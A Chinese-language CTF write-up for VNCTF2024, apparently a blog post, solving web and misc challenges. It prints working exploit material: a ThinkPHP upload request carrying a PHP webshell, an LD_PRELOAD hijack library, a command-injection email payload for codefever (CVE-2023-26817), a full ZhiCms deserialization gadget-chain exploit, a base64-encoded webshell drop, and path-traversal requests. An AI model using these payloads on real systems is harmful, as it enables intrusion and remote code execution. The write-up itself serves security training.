

VNCTF2024 writeup(含 cve-2024-0603 漏洞分析)

- - -

# VNCTF2024

# Web

## Checkin

签到题

在`game.js`​文件中可以找到被编码的一串字符，解码就是`flag`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220140554-1b47603a-cfb6-1.png)​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220140620-2aa32708-cfb6-1.png)

## CutePath

刷新页面可以抓到这样一条请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220140641-376b58a2-cfb6-1.png)

看到`filepath`​这个参数就可以尝试一波路径穿越了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220140649-3bde6852-cfb6-1.png)

在根目录有一个`flag`​的目录，然后`flag`​就在`/flag/flag/flag.txt`​

然后我们通过遍历上层目录，可以获得一串`base64`​的密文

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220140700-42e19020-cfb6-1.png)

经过解码发现是题目的用户名和密码

经过一段时间尝试都不太能够读到`flag.txt`​

然后我们仔细观察下载的请求

如果我们下载的是`txt`​,`zip`​这类的文件，请求的路径就是`/chfs/shared/...`​

而如果当我们下载的是`dir`​目录的话，请求的路径则变为`/chfs/downloaddir/...`​

此时我们创建一个目录，然后拦截下载的请求

修改路径为`/chfs/downloaddir/../../../../flag`​就能够成功获取`flag`​目录的所有内容，包括`flag`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220140709-47c80114-cfb6-1.png)

## TrySent

真 · 签到题

可以发现网站是`ThinkPHPV6.0.5`​的，直接搜索历史漏洞 打`POC`​就能拿到`flag`​了

```plain
POST /user/upload/upload HTTP/1.1
Host: target
Cookie: PHPSESSID=7901b5229557c94bad46e16af23a3728
Content-Length: 758
Sec-Ch-Ua: " Not;A Brand";v="99", "Google Chrome";v="97", "Chromium";v="97"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrhx2kYAMYDqoTThz
Accept: */*
Origin: https://info.ziwugu.vip/
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://target.com/user/upload/index?name=icon&type=image&limit=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ja-CN;q=0.8,ja;q=0.7,en;q=0.6
Connection: close

------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="id"

WU_FILE_0
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="name"

test.jpg
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="type"

image/jpeg
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="lastModifiedDate"

Wed Jul 21 2021 18:15:25 GMT+0800 (中国标准时间)
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="size"

164264
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/jpeg

JFIF
<?php system($_GET[0]);?>

------WebKitFormBoundaryrhx2kYAMYDqoTThz--
```

## givenphp

题目源码

```plain
<?php
highlight_file(__FILE__);
if(isset($_POST['upload'])){
    handleFileUpload($_FILES['file']);
}

if(isset($_GET['challenge'])){
    waf();
    $value=$_GET['value'];
    $key=$_GET['key'];
    $func=create_function("","putenv('$key=$value');");
    if($func==$_GET['guess']){
        $func();
        system("whoami");
    }
}
function waf()
{
    if(preg_match('/\'|"|%|\(|\)|;|bash/i',$_GET['key'])||preg_match('/\'|"|%|\(|\)|;|bash/i',$_GET['value'])){
        die("evil input!!!");
    }
}
function handleFileUpload($file)
{
    $uploadDirectory = '/tmp/';

    if ($file['error'] !== UPLOAD_ERR_OK) {
        echo '文件上传失败。';
        return;
    }
    $fileExtension = pathinfo($file['name'], PATHINFO_EXTENSION);

    $newFileName = uniqid('uploaded_file_', true) . '.' . $fileExtension;
    $destination = $uploadDirectory . $newFileName;
    if (move_uploaded_file($file['tmp_name'], $destination)) {
        echo $destination;
    } else {
        echo '文件移动失败。';
    }
}
```

可以看到题目给了一个上传点，还给了一个可以操作环境变量并且执行`whoami`​的点

一眼丁真就是`LD_PRELOAD`​环境变量问题

简单说一下`LD_PRELOAD`​,是一个环境变量，用于动态链接库的加载

然后我们看`whoami`​调用了哪些静态链接库呢

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220140736-585663cc-cfb6-1.png)

有`fflush`​,`geteuid`​,`puts`​等等

一开始一直尝试用`puts`​函数来劫持，发现一直成功不了，后面换了`fflush`​之后就成功了 (不太清楚为什么)

这边用`fflush`​进行演示

```plain
#include <stdlib.h>
#include <string.h>
void payload() {
    system("nl /*");
}
int fflush() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

然后通过命令，编译获得我们的恶意`so`​文件

```plain
gcc 1.c -o exp.so -fPIC -shared -ldl -D_GNU_SOURCE
```

通过`curl`​把文件上传到服务器上，并获得恶意`so`​文件的路径`/tmp/uploaded_file_65d3236acdcda1.15030717.so`​

然后看利用点，发现有一个`$func = creation_function(.....); $func=$_GET["guess"];`​

可以考的就是命令函数`\x00lambda_%0d`​而后面的`%0d`​是会递增的，不太能够精确控制这个值 (菜菜),所以我们这里选择竞争请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220140747-5e7b29f4-cfb6-1.png)

成功获得`flag`​​

## codefever\_again(赛后)

最新版本，但是之前的漏洞没修，所以可以直接通过历史漏洞拿`flag`​

参考链接：[https://github.com/PGYER/codefever/issues/140](https://github.com/PGYER/codefever/issues/140) ->CVE-2023-26817

大致分析就是`application/controllers/api/user.php`​中对`eamil`​的校验不严格

```plain
public function resentCommitEmailCode_post()
    {
        $userInfo = Request::parse()->authData['userData'];
        $data = Request::parse()->parsed;
        $uKey = $userInfo['u_key'];
        $email = $data['email'];

        if (!$email) {
            Response::reject(0x0201);
        }

        if (!preg_match('/^\w+([.-]?\w+)*@\w+([.-]?\w+)*(\.\w{2,3})+$/', $email)) {
            Response::reject(0x0201);
        }

        EmailSender::send(
            $email,
            '【CodeFever Community】验证电子邮件地址',
            EmailTemplate::verifyCode(TOTP::generate($email))
        );

        Response::output([]);
    }
```

然后调用了`EamilSender::send()`​方法

然后我们再来看这个方法是怎么实现的

```plain
class Mail {
    static function send (string $to, string $title, string $body)
    {
        Logger::Log(
            'Sent!, to=' . $to . ', subject=' . $title . ', body: ' . $body,
            Logger::SCOPE_EMAIL
        );

        $from = YAML_EMAIL_NAME . '<' . YAML_EMAIL_FROM . '>';

        // $result = exec("export LANG=en_US.UTF-8 && echo -e '{$body}' | mail -r '{$from}' -s '{$title}' '{$to}' > /dev/null &");

        $result = [];
        Command::run([
            'echo', '-e', Command::wrapArgument($body), '|',
            'mail', '-r', Command::wrapArgument($from),
            '-s', Command::wrapArgument($title), Command::wrapArgument($to),
            '> /dev/null &'
        ], $result);

        $result = implode('', $result);

        Logger::Log(
            'from:' . $from . ' Sent result:' .  json_encode($result),
            Logger::SCOPE_EMAIL
        );

        return true;
    }
}
```

调用`exec`​函数来进行发送邮件，所以我们可以在邮箱后面拼接命令实现任意命令执行

`payload`​ : `1@qq.com'xx|curl target;xx'xx`​

## zhi(赛后)

当时没时间做，看大佬的`wp`​复现

参考链接 : [https://pysnow.cn/archives/715/](https://pysnow.cn/archives/715/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220140804-68b03572-cfb6-1.png)

通过公开的信息可以发现漏洞入口位于`app/plug/controller/giftcontroller.php`​

```plain
......

public function mylike(){
        error_reporting('0');
        $mylike=$_COOKIE['mylike'];
        $arr = unserialize($mylike);

......
```

通过`$_COOKIE['mylike']`​就能够反序列化

大致反序列化链子为

```plain
simple_html_dom::__destruct() -> simple_html_dom::clear() -> MemcacheDriver::clear() ->simple_html_dom_node::__toString() ->simple_html_dom_node::outertext() -> 
Template::display() -> Template::compile()
```

`simple_html_dom.php`​

```plain
<?php
namespace ZhiCms\ext;
class simple_html_dom_node
{
    private $dom = null;
    function __toString()
    {
        return $this->outertext();
    }
    function outertext()
    {
        if ($this->dom && $this->dom->callback!==null)
        {
            call_user_func_array($this->dom->callback, array($this));
        }
    }
}
class simple_html_dom
{

    public $callback = null;
    protected $parent;
// .......
    function __destruct()
    {
        $this->clear();
    }

// .......
    function clear()
    {
        foreach ($this->nodes as $n) {$n->clear(); $n = null;}
        // This add next line is documented in the sourceforge repository. 2977248 as a fix for ongoing memory leaks that occur even with the use of clear.
        if (isset($this->children)) foreach ($this->children as $n) {$n->clear(); $n = null;}
        if (isset($this->parent)) {$this->parent->clear(); unset($this->parent);}
        if (isset($this->root)) {$this->root->clear(); unset($this->root);}
        unset($this->doc);
        unset($this->noise);
    }
// .......
}
```

`MemcacheDriver.php`​

```plain
<?php
namespace ZhiCms\base\cache;
class MemcacheDriver implements CacheInterface{
    protected $mmc = NULL;
    protected $group = ''; 
    protected $ver = 0;
    public function clear() {
        return  $this->mmc->set($this->group.'_ver', $this->ver+1); 
    }
}
```

`Template.php`​

```plain
<?php
namespace ZhiCms\base;
class Template {
    protected $config =array();
    protected $label = null;
    protected $vars = array();
    protected $cache = null;

    public function display($tpl = '', $return = false, $isTpl = true ) {
            if( $return ){
                if ( ob_get_level() ){
                    ob_end_flush();
                    flush();
                }
                ob_start();
            }

            extract($this->vars, EXTR_OVERWRITE);
            eval('?>' . $this->compile( $tpl, $isTpl));

            if( $return ){
                $content = ob_get_contents();
                ob_end_clean();
                return $content;
            }
        }   
}
```

分析

```plain
simple_html_dom 的__destruct() 方法调用了 clear() 方法，但是 clear() 方法中存在这样一段代码

if (isset(this->parent->clear(); unset($this->parent);}

然后$this->parent 变量是可控的，我们可以利用这里去调用 MemcacheDriver 类中的 clear() 方法

return  $this->mmc->set($this->group.'_ver', $this->ver+1); 

而 MemcacheDriver 的 clear() 方法中将$this->group 拼接字符串'_ver',所以可以触发 simple_html_dom_node 中的__toString() 方法
simple_html_dom_node 的__toString() 方法调用了 outertext() 方法，而这个方法中存在 call_user_func_array() 函数可以调用匿名函数

if ($this->dom && $this->dom->callback!==null){call_user_func_array($this->dom->callback, array($this));}

仔细分析这一段代码，如果$this->dom 和$this->dom->callback 存在，就将$this->dom->callback 作为回调函数调用，这里已经可以执行 phpinfo 了，继续往下走
可以找到 Template 中的 display 函数

extract($this->vars, EXTR_OVERWRITE);
eval('?>' . $this->compile( $tpl, $isTpl));

调用了 complie() 方法，然后将返回值拼接在<?的后面再给 eval 函数当作代码执行
再看看 complie() 方法

public function compile( $tpl, $isTpl = true ) {略}

这个方法其实就是模板化一串字符串，当传入的$isTpl 为 true 的时候就对传入的$tpl 进行修改，但是当$isTpl 变量为 false 的时候就不进行修改
这里的$tpl 和$isTpl 实际上是不可控的，但是 display() 方法中还有一段

extract($this->vars, EXTR_OVERWRITE);

$this->vars 变量是可控的，所以这里我们可以利用 extract() 的变量覆盖将$tpl 和$isTpl 覆盖为我们想要的值，就可以实现任意命令执行
```

最终`exp`​

```plain
<?php
namespace ZhiCms\base;
class Cache{
    protected $config =array();
    protected $cache = 'default';
    public $proxyObj=null;
    public $proxyExpire=1800;
    public function __construct(){
        $this->config = array("CACHE_TYPE"=>"FileCache","MEM_GROUP"=>"tpl");
    }
}
class Template {
    protected $config =array();
    protected $label = null;
    protected $vars = array();
    protected $cache = null;

    public function __construct(){
        $this->cache = new Cache;
        $this->vars=array("tpl"=>"<?php system('nl /*');?>","isTpl"=>false);
    }
}

namespace ZhiCms\base\cache;
use ZhiCms\ext\simple_html_dom_node;
use ZhiCms\base\Cache;
class MemcacheDriver
{
    protected $mmc = NULL;
    protected $group = ''; 
    protected $ver = 0;
    public function __construct(){
        $this->mmc = new Cache();
        $this->group = new simple_html_dom_node;
    }
}


namespace ZhiCms\ext;
use ZhiCms\base\cache\MemcacheDriver;
use ZhiCms\base\Template;
use zhicms\base\Cache;
class simple_html_dom
{
    protected $parent;
    public $callback = null;
    public function __construct($obj){
        $this->parent = $obj;
    }
}
class simple_html_dom_node
{
    private $dom = null;
    public function __construct(){
        $dom = new simple_html_dom("");
        $dom->callback=array(new Template(), "display");
        $this->dom = $dom;

    }
}


$step = new MemcacheDriver;
$exp = new simple_html_dom($step);
echo urlencode(serialize($exp));
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220140833-79ffcc34-cfb6-1.png)

# MISC

比赛的时候 MISC 一题没看 Orz

## OnlyLocalSql(赛后)

`ctf`​用户可以修改`/var/www/html`​目录，直接在里面添加一个木马文件，通过木马文件执行的命令权限就是`www-data`​

可以绕过`flag`​的限制

```plain
echo PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4= | base64 -d > /var/www/html/1.php
curl http://127.0.0.1/1.php?cmd=nl+/*
```

## sqlshark(赛后)

盲注语句分析，直接筛选`HTTP`​流量然后分析盲注`payload`​就好

‍
